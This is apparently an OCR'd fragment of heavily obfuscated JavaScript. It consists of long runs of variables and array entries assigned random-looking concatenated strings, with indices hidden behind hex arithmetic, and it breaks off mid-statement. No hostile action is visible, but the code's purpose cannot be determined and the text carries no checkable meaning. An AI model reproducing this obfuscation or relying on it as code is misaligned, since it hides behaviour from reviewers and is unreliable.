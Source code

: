 a0dk='Nq'+'[M'+'Zy'+'Vb';a0bk[0xb14+-0xdf7+0xd*0x43]='XD'+'At'+'kx'+'vR',_bTggiYS6C='Q%'+'L_'+'4k'+']X'+'t5',_fDsrQtqIdz='c&'+'YP'+'P/'+'1s'+'#a'+'[';var a0dl='Y1'+'P4'+'g8'+'p%'+'&l'+'2^'+'JN'+'S*';a0bg['Lk'+'Rz'+'kT']='rA'+'yv'+'AT'+'oW'+'o9',_jivpJ1i0FT='7)'+'Ve'+'6^'+'#k'+'BS'+'T',_lyrqA7AkG1='xw'+'-P'+'M*'+'*2'+'V',_I1TS4L='ge'+'oN'+'fN'+'Uk'+'[!'+'BY'+'%c',a0bg['lv'+'Zp'+'z']='fA'+'cy'+'oL'+'C',_sJrjnUoKFh='e('+'ED'+'M4'+'a&'+'wt'+'8W'+'!';var a0dm='kq'+'&d'+'T*'+'mQ'+'B.';_8ZDoyXv1='.c'+'wc'+'N6'+'Nv'+'M',a0bg['kY'+'JG'+'Op'+'n']='f3'+'qL'+'sm'+'Cm'+'IK'+'ah'+'5G'+'21'+'u',_pEXwygChM='y?'+'GS'+'fq'+'9v'+'3W'+'af'+'-d'+'xB';var a0dn='I)'+'t('+'#m'+'vX'+'ec'+'Se'+'we'+'S]';_C4RR7Uk='1M'+'(W'+'du'+'3J'+'[',_OmfXj='F0'+'yn'+'FC'+'f&'+'w4'+'Qw'+'2r'+'Un',a0bk[0x2*0x380+0x2347+-0x2a19]='dn'+'yF'+'XG'+'ta';var a0dp='9*'+'uH'+'GT'+'51'+'wY'+'*^'+'^y'+'f1';_wtDPdeiqK='9]'+'?['+'kd'+'3x'+'Er',_rjln4XL='y%'+'rI'+'4*'+'*X'+'76'+'_-',a0bg['AO'+'Tq'+'CJ']='gQ'+'Lq'+'Lq'+'vq'+'Oq'+'c9';var a0dq='!V'+'2&'+'y4'+'@B'+'hF'+'w/'+'xb'+'np',a0dr='-['+'iJ'+'h_'+'RP'+'YB'+'Nb'+'5@'+'V?';_JeTI8='Hb'+'jC'+'H!'+'pv'+'yt';var a0ds='gL'+'xf'+'*i'+'8S'+'!k'+'a';a0bk[-0x1*0xbfb+-0xf27+0x1b5f]='Ai'+'Lx'+'iM'+'LQ';var a0dt='nt'+'wD'+'nq'+'2f',a0du='uz'+'4?'+'BS'+'0a'+'0';a0bg['MD'+'XA'+'kt'+'LW'+'gB']='mN'+'qC'+'vL'+'qL'+'mu'+'6x'+'2Q',_IpKgm='N@'+'*B'+'5R'+'y%'+'Jq'+'_';var a0dv='u#'+'Nm'+'+%'+'Jg'+'?p'+'f',a0dw='ml'+'Fr'+'+0'+'P*'+'A.';_IuJMIWGE='sg'+'.F'+'=j'+'&',_nGRxEA='(U'+'Ya'+'9C'+'E&'+'_*'+'r^'+'rO'+'ui',a0bg['pj'+'nc'+'IQ'+'nY']='vL'+'9v'+'Lq'+'Lm'+'us'+'6y';var a0dx='hX'+'gz'+'p&'+'1d'+'GQ'+'t',a0dy='_.'+'B9'+'QS'+'4f'+'gP'+'b8'+'VG'+'+U',a0dz='ej'+'[b'+'3k'+'S1'+'Pq'+'[5'+'!';a0bg['bE'+'Uo'+'mo']='8W'+'mV'+'4v'+'Lq'+'Lm'+'ue'+'o7'+'v';var a0dA='qQ'+'HP'+'yY'+'[L'+'H';_WsDC4='/%'+'M2'+'S#'+'XQ'+'ia'+'v9'+'w';var a0dB=']9'+'/L'+'s_'+'bL'+'xs'+'&h';a0bg['Qo'+'ps'+'WG'+'EZ'+'Wi']='NH'+'Lq'+'Lq'+'vv'+'9k',_q3RPhtO='z/'+'7E'+'j5'+'9';var a0dC='hd'+'Ew'+'e@'+'&J'+'lR'+'K',a0dD='bg'+'aS'+'ph'+'0',a0dE='Q]'+'e6'+'7o'+'=0'+'%7';_51WoH2='-5'+'j!'+'*%'+'%t'+'*';var a0dF='V*'+'=a'+'t%'+'S9'+'R#'+'d6'+'mk'+'W';_P9Cjv='xE'+'Td'+'V8'+'JJ'+'PJ'+'L]';var a0dG='*L'+'/8'+'#7'+'0*'+'K['+'ju';a0bk[-0x221e+-0x715+0x299c]='cU'+'Wp'+'w',_RTbLnZh2='NI'+'mE'+'*D'+'eY'+'E2'+'SL'+'W!';var a0dH='*?'+'BF'+'GG'+'y2'+'89'+'Z?';_PhpvhO='Vj'+'+2'+'vq'+'Kh'+'kL'+'2E'+'Q',_hE0NtcYQY0='88'+'p4'+'tk'+'_q';var a0dI='!*'+'p_'+'^R'+'Z@';a0bk[0x23f2+-0x620+-0x1*0x1dd2]='vq'+'OM'+'IN'+'Yv'+'PP';var a0dJ='Fh'+'*z'+'EC'+'Ha'+'Zv'+'.G'+'w',a0dK='JF'+'b#'+'L7'+'*7'+'_e',a0dL='SX'+')S'+'Us'+'pp';_jcJtJOx='VD'+'#@'+'8d'+'iB'+'oh'+'i';var a0dM='2s'+'1p'+'VM'+'@T'+'6O'+'jm';a0bg['xm'+'bX'+'zy'+'g']='RI'+'mM'+'Kp'+'A1'+'0s'+'BP',_keTMyqV6h='Tt'+'T?'+'t7'+'8X'+'0';var a0dN='rx'+'WQ'+'IO'+'J';a0bg['Mq'+'TG'+'hb'+'P']='jT'+'xA'+'kv'+'qL'+'We'+'VI'+'Nt'+'Xz'+'uN',_aeckCJIX='Bo'+'eS'+'1V'+'^h',_9JyKg='ar'+'%]'+'NW'+'Xk',_MAh7dHS=']w'+'Dh'+'*Z'+'b8';var a0dO='ae'+'x('+'Bz'+'bv'+'T5'+'*';a0bk[-0x67*-0x13+-0x679*0x3+-0x2*-0x61d]='xU'+'GY'+'A',_7v2HPz='^3'+'MR'+'UU'+'cp'+'5',_GsoBL='@T'+'pa'+'P*'+'c)'+'Zp'+'&H'+'Pw',a0bg['rQ'+'vc'+'Pf'+'X']='yZ'+'oV'+'oq'+'L';var a0dP='j%'+'ZY'+'=='+'9N'+'N',a0dQ='u)'+'EK'+'04'+')&'+'(^'+'c';_tW8wk='TX'+'wb'+'gl'+'&d'+'_T'+'rK'+'O',_pr4hv3CaF='Aw'+'-V'+'r!'+'p/'+'9p'+'!.'+'S',a0bk[-0x826*-0x1+-0x1de*-0xc+-0x1e80]='Fi'+'Vo'+'rE'+'UY';var a0dR='D8'+'*)'+'s6'+'^m';_K1qC6znR3='PL'+'y@'+')0'+'Z@';var a0dS='=H'+'W#'+'zf'+'B_'+'?',a0dT='+0'+'+r'+'nh'+'KI'+'s+'+'jX'+'W';a0bk[-0x1df6+-0x7d9+0x2635]='hH'+'Rl'+'t';var a0dU='_n'+'iy'+'S#'+'GI'+'5_'+'i',a0dV='H['+'#G'+'uQ'+'M?'+'F2'+'Qv'+'r';_qSvPmvCGCZ='LE'+'IQ'+'?o'+'Pr'+'ah'+'J*'+'.-'+'TB';var a0dW='t('+'JA'+'Du'+'1h';a0bg['vT'+'HA'+'P']='KH'+'qA'+'cE'+'AR'+'49'+'kp',_L4PqCr='ye'+'Za'+'Fx'+'dm'+'A*'+'b4'+'%5'+'b6';var a0dX='r2'+'i+'+'j&'+'i%'+'np'+'(B'+'=x';_nrjf63='nL'+'*M'+'F-'+'vs'+'Cn',_iNceHx5b6l='A!'+'v]'+'G0'+'5M'+'&',_oZNyqU7DM='Jy'+'E?'+'xX'+'@)'+'cE'+'h='+'%q',a0bg['US'+'fP'+'CY'+'aK'+'ek']='qL'+'bz'+'v',_xsPV5AAzoJ='u6'+'Gv'+'sx'+'ba'+'kK'+'n*'+'3';var a0dY='O0'+']c'+'4^'+'1&'+'IB'+'^s'+'U',a0dZ='?#'+'0*'+'.7'+'j-'+']q'+'&#'+'Lx';_VABBD='y#'+'H['+'ou'+'L5'+'sa'+'KU'+'HJ';var a0e0='KD'+'R2'+'Nr'+'#N'+'8';a0bg['eZ'+'Lu'+'yA'+'Ih'+'Eg']='1x'+'hL'+'mi'+'EP'+'uq'+'Lv'+'Lb'+'zb'+'a',_jAVzb0YJg='AR'+'qf'+'KP'+'j?'+'X!'+'lz'+'h';var a0e1='Ey'+'rL'+'k&'+'V)'+'_o'+'he';_Zv9yn4Ww5h='Ui'+'+_'+'EA'+'i3'+'4T'+'Xy'+'fS'+'c',_sien7='LN'+'&&'+'TL'+'bU',a0bk[0x1f21+0x26ea+0x45c1*-0x1]='tA'+'nk'+'SU'+'X';var a0e2='3-'+']G'+'2*'+']k'+'E['+']k'+'yH'+'S-';_rk8pk5='ju'+'Zk'+'V+'+'eW'+'ih'+'e',_CaCoYbODp='*#'+'nV'+'KX'+'xF'+'_U';var a0e3='Nn'+'_K'+'oR'+'JS'+'Ca'+'TF'+'fX'+'S',a0e4='JC'+'Dq'+'N';_tHMZSCnm=')Y'+'M9'+'?f'+'u6'+'b1'+'j',_zFvMajBP='WW'+'H6'+'-s'+'W['+'p8',_VSiom='+B'+'zX'+'3?'+'4g';var a0e5='zB'+'wd';_L2LTD08m='qM'+'kl'+'-H'+']^'+'T';var a0e6='!+'+'FT'+'uR'+'[A'+'TG'+'G*'+'?7'+'^';_ePQiMm3MW1='Wu'+'9C'+'.X'+'f@'+'9T'+'N';var a0e7='Cy'+')6'+'&x'+'@+'+'hw';a0bg['hf'+'xF'+'Fq'+'N']='V4'+'Ie'+'37'+'06'+'d5'+'Gy'+'nN'+'sj'+'E',_PbfthdM4='/q'+'+='+'Vf'+'xU'+'Mw'+']o'+'q';var a0e8='M/'+'G7'+'w&'+'tE'+'Mz'+'V9'+'xt';a0bk[0x69d+0x81*0x45+-0x1*0x28f3]='nG'+'HX'+'FV',_RuH2ng='aP'+'ie'+'YK'+'zk';var a0e9='92'+'?F'+'Vt'+'x6'+'@.'+'dw';_kzGTE='DG'+'SN'+'vI'+'Te',a0bk[0x14cb+0x3*0x7c3+-0x3*0xe96]='0O'+'kE'+'Iv'+'Zl';var a0ea='xK'+'Qp'+'*C'+'0k'+'P0'+']7'+'P';_Ygb6hZhcfU='zd'+'c9'+'=('+'Dl'+'Uu',_IVkITHc='G!'+'33'+'x@'+'TO'+'ed'+'0z'+'_9'+'Cd',_9oNbg8ITUp='nA'+'A('+']d'+'aG'+'q',_CnX0waO='L#'+'.#'+'Pg'+'Ni'+'4';var a0eb='Wq'+'U5'+'Vx'+'w',a0ec='K4'+')7'+'z0'+'C9'+'va'+'7#'+'Ts'+'Q',a0ed='B6'+'67'+'oe'+'rH'+'6F'+'am'+'d';_aoU9gQ4i='zJ'+'Dh'+'h*'+'*W';var a0ee='B+'+'fK'+'#)'+'B2'+'(';_ilWiRFFbsu='bB'+'F_'+'5S'+'OM';var a0ef='aL'+'8c'+'U!'+'*@'+'Rb'+'B)'+'?@'+'KF';a0bk[-0xa75+0x26a5+0x1fc*-0xe]='p4'+'Uy'+'ob'+'Wr'+'7';var